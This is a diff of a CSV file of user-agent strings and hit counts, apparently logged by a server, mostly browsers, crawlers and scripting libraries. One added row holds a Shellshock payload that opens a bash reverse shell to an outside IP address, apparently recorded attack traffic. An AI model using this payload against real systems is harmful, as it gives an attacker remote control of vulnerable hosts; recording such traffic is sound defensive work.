

Before and after one commit to neilwillgettoit/risky.cloud, a CSV file: agents.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

```diff
--- a/agents.csv
+++ b/agents.csv
@@ -30,23 +63,27 @@
-"""Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.0.1-development Safari/538.1""",2
-"""Mozilla/5.0 (Windows NT 6.1) AppleWebKit/536.5 (KHTML, like Gecko) Chrome/19.0.1084.46 Safari/536.5""",2
+"""Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.0.0 Safari/538.1""",2
+"""Mozilla/5.0 (Windows NT 5.1; rv:18.0) Gecko/20100101 Firefox/18.0""",2
 """Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/43.0.2357.81 Safari/537.36""",2
-"""Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko""",2
+"""Mozilla/5.0 (Windows NT 6.1; WOW64; rv:12.0) Gecko/20100101 Firefox/12.0""",2
+"""Mozilla/5.0 (Windows NT 6.1; WOW64; rv:27.0) Gecko/20100101 Firefox/27.0""",2
+"""Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:25.0) Gecko/20100101 Firefox/29.0""",2
 """Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/48.0.2564.109 Safari/537.36""",2
 """Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; rv:11.0) like Gecko""",2
-"""Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:x.xx) Gecko/20090504 Mozilla Firefox/3.0.2.1""",2
-"""Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5 (.NET CLR 3.5.30729)""",2
-"""Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.2.13) Gecko/20101203 Firefox/3.6.13""",2
+"""Mozilla/5.0 (Windows; U; Windows NT 5.1; en-GB; rv:1.8.1.16) Gecko/20080702 Firefox/2.0.0.16""",2
+"""Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:x.xx) Gecko/20030504 Mozilla Firebird/0.6""",2
+"""Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36""",2
 """Mozilla/5.0 (X11; U; OpenVMS AlphaServer_ES40; en-US; rv:1.4) Gecko/20030826 SWB/V1.4 (HP)""",2
-"""Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:21.0) Gecko/20130331 Firefox/21.0""",2
-"""Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 1.0.3705; .NET CLR 1.1.4322)""",2
-"""Mozilla/5.0 (compatible; en-US)""",2
-"""Mozilla/5.0 (compatible; en-us)""",2
-"""Mozilla/6.0 (compatible; MSIE 7.03; Windows ME) Opera 5.19 [jp]""",2
+"""Mozilla/5.0 (compatible; Fedora Core 4) FC4 Gnome""",2
+"""Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/6.0; Touch; MASEJS)""",2
+"""Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0; MATMJS)""",2
+"""Mozilla/6.0 (compatible; Amiga-AWeb)""",2
+"""Mozilla/6.0 (compatible; MSIE 7.01; Windows 95)""",2
+"""Mozilla/6.0 (compatible; MSIE 7.01; Windows CE; 760x412; Samsung)""",2
+"""Mozilla/6.0 (compatible; MSIE 7.03; Windows ME) Opera 5.11 [en]""",2
+"""Python-urllib/1.17""",2
 """Python-urllib/2.6""",2
+"""Scrapy/0.24.4 (+http://scrapy.org)""",2
 """python-requests/2.8.1""",2
-"""/n software IPWorks HTTP/S Component - www.nsoftware.com""",1
-"""GetURLInfo/1.0""",1
-"""ICE Browser/5.05 (Java 1.4.0; Windows 2000 5.0 x86)""",1
-"""Java/1.7.0_80""",1
-"""Mozilla/4.0 (Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko""",1
-"""Mozilla/4.0 (Windows; MSIE 7.0; Windows NT5.1; SV1; .NET CLR 2.0.50727)""",1
+"""() { :; }; /bin/bash -i >& /dev/tcp/98.126.212.154/16161 0<&1 2>&1""",1
+"""Java/1.7.0_79""",1
+"""JetBrains 4.0 Release Candidate 3""",1
+"""JetBrains 5.0""",1
```
Also changed, not shown: 47 added rows, 15 removed rows and 34 edited cells elsewhere in this file.
